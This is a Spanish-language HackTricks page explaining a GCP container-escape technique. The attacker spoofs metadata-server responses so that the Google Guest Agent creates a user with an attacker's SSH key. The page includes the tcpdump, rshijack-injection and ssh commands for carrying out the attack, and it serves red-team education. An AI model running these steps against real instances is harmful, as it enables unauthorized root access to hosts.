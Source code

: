 # GCP - Escape de Docker en la Red

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Estado Inicial

En ambos informes donde se especifica esta técnica, los atacantes lograron obtener acceso **root** dentro de un contenedor **Docker** gestionado por GCP con acceso a la red del host (y las capacidades **`CAP_NET_ADMIN`** y **`CAP_NET_RAW`**).

## Explicación del Ataque

En una instancia de Google Compute Engine, la inspección regular del tráfico de red revela numerosas **solicitudes HTTP en texto plano** al **metadata instance** en `169.254.169.254`. El [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), un servicio de código abierto, realiza frecuentemente tales solicitudes.

Este agente está diseñado para **monitorear cambios en los metadatos**. Notablemente, los metadatos incluyen un **campo para claves públicas SSH**. Cuando se agrega una nueva clave pública SSH a los metadatos, el agente la **autoriza** automáticamente en el archivo `.authorized_key`. También puede **crear un nuevo usuario** y agregarlo a **sudoers** si es necesario.

El agente monitorea cambios enviando una solicitud para **recuperar todos los valores de metadatos de forma recursiva** (`GET /computeMetadata/v1/?recursive=true`). Esta solicitud está diseñada para solicitar al servidor de metadatos que envíe una respuesta solo si hay algún cambio en los metadatos desde la última recuperación, identificado por un Etag (`wait_for_change=true&last_etag=`). Además, se incluye un parámetro de **timeout** (`timeout_sec=`). Si no ocurre ningún cambio dentro del tiempo de espera especificado, el servidor responde con los **valores sin cambios**.

Este proceso permite que el **IMDS** (Servicio de Metadatos de Instancia) responda después de **60 segundos** si no ha ocurrido ningún cambio de configuración, creando una posible **ventana para inyectar una respuesta de configuración falsa** al agente invitado.

Un atacante podría explotar esto realizando un **ataque Man-in-the-Middle (MitM)**, suplantando la respuesta del servidor IMDS e **insertando una nueva clave pública**. Esto podría permitir el acceso SSH no autorizado al host.

### Técnica de Escape

Mientras que el spoofing ARP es ineficaz en las redes de Google Compute Engine, una [**versión modificada de rshijack**](https://github.com/ezequielpereira/rshijack) desarrollada por [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) puede ser utilizada para la inyección de paquetes en la comunicación para inyectar el usuario SSH.

Esta versión de rshijack permite ingresar los números ACK y SEQ como argumentos de línea de comandos, facilitando la suplantación de una respuesta antes de la respuesta real del servidor de Metadatos. Además, se utiliza un [**pequeño script Shell**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) para devolver una **carga útil especialmente diseñada**. Esta carga útil activa al Google Guest Agent para **crear un usuario `wouter`** con una clave pública especificada en el archivo `.authorized_keys`.

El script utiliza el mismo ETag para evitar que el servidor de Metadatos notifique inmediatamente al Google Guest Agent sobre diferentes valores de metadatos, retrasando así la respuesta.

Para ejecutar la suplantación, son necesarios los siguientes pasos:

1. **Monitorear solicitudes al servidor de Metadatos** usando **tcpdump**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Busca una línea similar a:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Envía los datos de metadatos falsos con el ETAG correcto a rshijack:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Este paso autoriza la clave pública, habilitando la conexión SSH con la clave privada correspondiente.

## Referencias

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
